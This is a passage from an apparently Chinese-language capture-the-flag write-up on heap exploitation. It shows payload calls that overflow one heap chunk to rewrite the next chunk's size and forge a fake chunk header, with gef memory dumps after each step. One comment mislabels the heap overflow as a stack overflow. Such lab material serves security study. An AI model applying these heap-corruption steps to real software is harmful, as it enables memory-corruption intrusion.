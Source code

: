 `fill(0, 0x60 + 0x10, 'a' * 0x60 + p64(0) + p64(0x71))`
 通过栈溢出修改 `chunk 1` 的 `size` 为 `0x70`
 ```c
 gef➤  x/32gx 0x000055ca12def000
0x55ca12def000:	0x0000000000000000	0x0000000000000071 =>chunk 0 header
0x55ca12def010:	0x6161616161616161	0x6161616161616161
0x55ca12def020:	0x6161616161616161	0x6161616161616161
0x55ca12def030:	0x6161616161616161	0x6161616161616161
0x55ca12def040:	0x6161616161616161	0x6161616161616161
0x55ca12def050:	0x6161616161616161	0x6161616161616161
0x55ca12def060:	0x6161616161616161	0x6161616161616161
0x55ca12def070:	0x0000000000000000	0x0000000000000071 =>chunk 1 size 被修改为0x70了
0x55ca12def080:	0x0000000000000000	0x0000000000000000
0x55ca12def090:	0x0000000000000000	0x0000000000000000
0x55ca12def0a0:	0x0000000000000000	0x0000000000000000
0x55ca12def0b0:	0x0000000000000000	0x0000000000000000
0x55ca12def0c0:	0x0000000000000000	0x0000000000020f41
0x55ca12def0d0:	0x0000000000000000	0x0000000000000000
```

`alloc(0x100) # 2`: 

```c
gef➤  x/32gx 0x000055dc9b1b8000
0x55dc9b1b8000:	0x0000000000000000	0x0000000000000071 => chunk 0 header
0x55dc9b1b8010:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8020:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8030:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8040:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8050:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8060:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8070:	0x0000000000000000	0x0000000000000071 => chunk 1 header (注意原本的size是0x51)
0x55dc9b1b8080:	0x0000000000000000	0x0000000000000000
0x55dc9b1b8090:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80a0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80b0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80c0:	0x0000000000000000	0x0000000000000111 => chunk 2  header
0x55dc9b1b80d0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80e0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80f0:	0x0000000000000000	0x0000000000000000
```

`fill(2, 0x20, 'c' * 0x10 + p64(0) + p64(0x71)) `
在 chunk2 中构造一个 fake chunk header

```c
gef➤  x/32gx 0x000055dc9b1b8000
0x55dc9b1b8000:	0x0000000000000000	0x0000000000000071 => chunk 0
0x55dc9b1b8010:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8020:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8030:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8040:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8050:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8060:	0x6161616161616161	0x6161616161616161
0x55dc9b1b8070:	0x0000000000000000	0x0000000000000071 => chunk 1 
0x55dc9b1b8080:	0x0000000000000000	0x0000000000000000
0x55dc9b1b8090:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80a0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80b0:	0x0000000000000000	0x0000000000000000
0x55dc9b1b80c0:	0x0000000000000000	0x0000000000000111 => chunk 2
0x55dc9b1b80d0:	0x6363636363636363	0x6363636363636363
0x55dc9b1b80e0:	0x0000000000000000	0x0000000000000071 => fake chunk size
0x55dc9b1b80f0:	0x0000000000000000	0x0000000000000000
```

